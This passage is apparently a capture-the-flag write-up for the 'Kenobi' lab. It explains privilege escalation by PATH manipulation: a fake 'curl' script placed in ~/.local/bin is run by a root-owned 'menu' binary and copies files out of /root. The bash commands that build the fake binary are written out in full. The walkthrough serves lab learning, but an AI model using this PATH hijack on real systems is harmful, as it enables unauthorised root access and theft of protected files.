 - Removed all of the uninteresting strings

This shows us that for each menu option, `menu` is running either `curl`, `uname`, or `ifconfig` without a full path. If I can place an executable `curl` before the legitimate `curl` in the `PATH`, I can have it execute with `root` privileges.

# Kenobi Privilege Escalation - PATH Manipulation

`/home/kenobi/.local/bin/` comes before `/usr/bin/` in the `PATH` variable.

## Create malicious `curl` in `/home/kenobi/.local/bin`

```bash
cd /home/kenobi
mkdir .local
mkdir .local/bin
echo '#!/bin/bash' > .local/bin/curl
echo 'cp /root/*.txt .' >> .local/bin/curl
chmod 777 .local/bin/curl
export PATH=$PATH
```

## Run `menu` and select option #1 to get the `root` flag